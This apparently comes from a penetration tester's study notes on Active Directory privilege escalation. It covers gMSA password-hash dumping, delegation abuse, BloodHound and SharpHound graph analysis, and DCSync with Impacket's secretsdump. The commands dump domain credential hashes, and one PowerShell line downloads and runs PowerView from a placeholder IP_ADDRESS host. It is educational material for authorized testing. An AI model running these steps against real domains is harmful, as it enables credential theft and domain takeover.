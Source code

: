 ```yaml
---
description: Active Directory Privilege Escalation
---
```


# Active Directory

## **Automated Enumeration**

The /r/oscp subreddit recommended adPEAS as an excellent tool for automated enumeration of active directory environments.

{% embed url="https://github.com/61106960/adPEAS" %}

## **Group Managed Service Accounts (gMSA)**

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.

If you have access to a user account who has permissions to read the managed password, then you can do so like this:

**WARNING: gMSADumper.py gets the password HASH**. You can also get the actual password though, I think, using other tools.

```
# https://github.com/micahvandeusen/gMSADumper
python3 gMSADumper.py -u User -p Password1 -d domain.local
```

You can also use a **hash** instead of a password with gMSADumper.

If you're not sure whether you can read managed passwords, then the attribute you need to look for in Ad is **msDS-GroupMSAMembership (PrincipalsAllowedToRetrieveManagedPassword)**. It stores the security principals that can access the GMSA password.



**TrustedToAuthForDelegation**

{% embed url="https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/" %}

If an AD user has the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** (constrained delegation) or **ADS\_UF\_TRUSTED\_FOR\_DELEGATION** (unconstrained delegation) field set in their userAccountControl, then they can request tickets on behalf of other users, without knowing their password.&#x20;

* **Unconstrained** - you can request a ticket for any service as any user that doesn't have ‘Account is sensitive and cannot be delegated’ enabled.
  * If a user cannot be delegated, then it has **NOT\_DELEGATED** in its userAccountControl attribute
* **Constrained** - you can request a ticket for a specific service as any user that doesn't have ‘Account is sensitive and cannot be delegated’ enabled.
  * Specifically, you can request a service ticket to any SPN specified in msds-allowedtodelegateto.

### **Enumeration**

You could use PowerView’s **-TrustedToAuth** flag for **Get-DomainUser/Get-DomainComputer**. Look at [harmj0y's post](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) to see the full command.

Alternatively, if you dumped the active directory with something like [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump), then you might also notice the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** or **ADS\_UF\_TRUSTED\_FOR\_DELEGATION** flags.

### **Exploitation**

Sources:

* Exploit using [Windows-based tools](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
* Exploit using [Linux-based tools](https://labs.f-secure.com/archive/trust-years-to-earn-seconds-to-break/)

## **Pivoting Using Bloodhound**

You can use BloodHound to find active directory attack paths.

### **BloodHound Installation**

You can download it from apt in kali. For the latest version, though, download the github repo:

{% embed url="https://github.com/BloodHoundAD/BloodHound" %}

Also download the executable from Releases (linux x64).

For instructions on how to set it up, take a look at Ippsec's video on HackTheBox Forest at \~46 minutes.

{% embed url="https://youtu.be/H9FcE_FMZio?t=2660" %}

### **Setup and graph generation**

First, you have to start up the neo4j console.&#x20;

```
sudo neo4j console
```

Then, you can run the bloodhound GUI application.

Default credentials for neo4j are **neo4j:neo4j** (unless you changed them). If it's your first time running neo4j, you need to change the credentials.

To actually get the data into BloodHound, you need to run SharpHound.exe on a compromised windows machine.

Find the executable in your Linux machine:

```
locate SharpHound.exe
```

For me it was in `/usr/lib/bloodhound/resources/app/Collectors/`.

Transfer sharphound to the compromised machine and run it.&#x20;

```
./SharpHound.exe -c all
```

Afterwards, send the generated file back to your linux box.

Open up a file manager and drag-and-drop the generated zip file into the bloodhound GUI. It will extract and import.

### **Using BloodHound**

First, search for the user you have compromised in the top filter, right click it and mark the user as owned.

Open up the menu at the top and click on "Analysis" (may also be "Queries"). It's a tab in the Database Info menu. For example, you can do "Shortest Paths to domain admins from Kerberoastable Users" if you're looking to kerberoast something. If you're looking to go from an owned user to ad admin, then select "shortest path to domain admin from owned principals". The "all interesting paths" option is the useful query for the general term.

For each node connection, you can right click and click "info". That specifies what the permission does, as well as how to abuse it with copy-pastable commands (though you might have to tweak them to get them to work sometimes). Most of the commands use PowerView (**the version from the dev branch!**) - A link to powerview is provided in the **References tab**.

Use this command if you've got powerview downloaded to the machine:&#x20;

```
Import-Module ./PowerView.ps1
```

Or this command to import the functions over HTTP:

```
IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/PowerView.ps1')
```

## **DC Sync Attack**

### **Cause and background info**

Domain controllers need to replicate information between each other. If a user's password was changed, then that change needs to be replicated in every domain.

So, if we can get DCSync capabilities, then we can just ask another domain controller to replicate over a user's password data. The permission's name is "Replicating Directory Changes" and "Replicating Directory Changes All", and domain controllers have that permission. Those two permissions are the ones we need for this attack.

The main difficulty lies in getting those two permissions for the attack. The most common way is through the Microsoft Exchange Windows Permissions group. If you install MS Exchange, then it integrates with AD and adds a load of permissions. One of the things it adds is the group MS Exchange permissions. It grants that group permission to modify permissions on the root of this domain. If you can get into that group, then you will have permission to modify those permissions.

### **Exploitation**

If you've managed to get the two permissions needed, then you can go forward with the attack.&#x20;

Use Impacket's secretsdump script. In this example, the user "USER\_NAME" has the two permissions needed. The script will ask you for the password.

```
secretsdump.py DOMAIN_NAME/USER_NAME@IP_ADDRESS
```

The script gives you a list of all the users in the domain, along with their password hash (LM/NTLM). You can then use that hash for pass-the-hash.
